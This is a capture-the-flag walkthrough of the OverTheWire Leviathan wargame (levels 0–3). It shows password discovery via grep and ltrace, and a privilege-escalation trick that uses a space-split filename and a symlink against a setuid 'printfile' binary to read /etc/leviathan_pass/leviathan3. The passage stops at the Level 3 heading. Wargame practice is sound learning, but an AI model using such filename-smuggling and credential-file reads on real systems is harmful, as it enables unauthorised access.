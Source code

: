# Leviathan - Walkthrough
---
## Connecting
```zsh
$ ssh leviathan.labs.overthewire.org -p 2223 -l leviathan{number}
[..]
# Paste user password

# If you then want to switch user, use
# Ctrl-d and then reconnect using different login credentials
```

## Levels

**Each level description contains**
+ description
+ commands
+ password

### Level 0

Log in using given credentials:
- login - leviathan0
- password - leviathan0

### Level 0 => 1

In the home directory there is a hidden *.backup* folder. Inside, a HTML file is located. Cat-ing the file gives a lot of output...

```html
$ cat bookmarks.html
    <!DOCTYPE NETSCAPE-Bookmark-file-1>
    <!-- This is an automatically generated file.
        It will be read and overwritten.
        DO NOT EDIT! -->
    <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=UTF-8">
    <TITLE>Bookmarks</TITLE>
    <H1 LAST_MODIFIED="1160271046">Bookmarks</H1>

    <DL><p>
        <DT><H3 LAST_MODIFIED="1160249304" PERSONAL_TOOLBAR_FOLDER="true" ID="rdf:#$FvPhC3">Bookmarks Toolbar Folder</H3>
        [...]
```

The file contains a **whole lot** of bookmarks. Use `grep` on it.

```html
$ cat bookmarks.html | grep pass
    <DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

This time I was lucky to find it the easy way.

The password for leviathan1 is `rioGegei8m`

### Level 1 => 2

At first glance, there is a script that is executable. Run it

```zsh
$ ./check
    password: rioGegei8m
    Wrong password, Good Bye ...
```

It looks like it compares strings. Run `ltrace` on it (see the manpage).

```zsh
$ ltrace ./check
    __libc_start_main(0x804853b, 1, 0xffffd774, 0x8048610 <unfinished ...>
    printf("password: ")                                                                                     = 10
    getchar(1, 0, 0x65766f6c, 0x646f6700password:
    )                                                                    = 10
    getchar(1, 0, 0x65766f6c, 0x646f6700
    )                                                                    = 10
    getchar(1, 0, 0x65766f6c, 0x646f6700
    )                                                                    = 10
    strcmp("\n\n\n", "sex")                                                                                  = -1
    puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
    )                                                                     = 29
    +++ exited (status 0) +++
    leviathan1@leviathan:~$ ./check
    password: sex
$ whoami
    leviathan2
$ cat /etc/leviathan_pass/leviathan2
    ougahZi8Ta
```

So that's it! We are now leviathan2! The password is `ougahZi8Ta`

### Level 2 => 3

Now it's getting harder...

```console
$ ls -la
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile

$ ./printfile 
*** File Printer ***
Usage: ./printfile filename

$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Of course it can't be that easy!

Will ltrace unveil the mistery?

```console
$ ltrace ./printfile hello.txt
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("hello.txt", 4)                                   = -1
puts("You cant have that file..."You cant have that file...
)                       = 27
+++ exited (status 1) +++
```

Let's try inputting a blank space in the filename.

```console
$ ltrace ~/printfile "hello world.txt"
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("hello world.txt", 4)                             = 0
snprintf("/bin/cat hello world.txt", 511, "/bin/cat %s", "hello world.txt") = 24
geteuid()                                                = 12002
geteuid()                                                = 12002
setreuid(12002, 12002)                                   = 0
system("/bin/cat hello world.txt"/bin/cat: hello: No such file or directory
/bin/cat: world.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 256
+++ exited (status 0) +++
```

Instead of accessing "hello world.txt" is separates it in two making it two files to check. Interesting...

Aha! This file calls an *access()* command, which, according to it's man page, checks if you are permitted to open a specific file.
It does it by looking at the **OWNER** of the file (real user), not at the executor (effective user). That's it! All there's left to do is to create a file that referes to */etc/leviathan_pass/leviathan3*.

Symbolic link may do it. But first, create a directory under /tmp.

```console
$ mkdir /tmp/adam23 && cd /tmp/adam23
$ touch hello\ world.txt
$ ln -s /etc/leviathan_pass/leviathan3 /tmp/adam23/hello
$ ls -al
total 268
drwxr-sr-x   2 leviathan2 root   4096 Mar  8 18:34 .
drwxrws-wt 177 root       root 266240 Mar  8 18:34 ..
lrwxrwxrwx   1 leviathan2 root     30 Mar  8 18:34 hello -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root      0 Mar  8 18:16 hello world.txt
```

OK. Now run the command

```console
$ ~/printfile "hello world.txt"
Ahdiemoo1j
/bin/cat: world.txt: No such file or directory
```

And there it is!
The password is `Ahdiemoo1j`

### Level 3 => 4

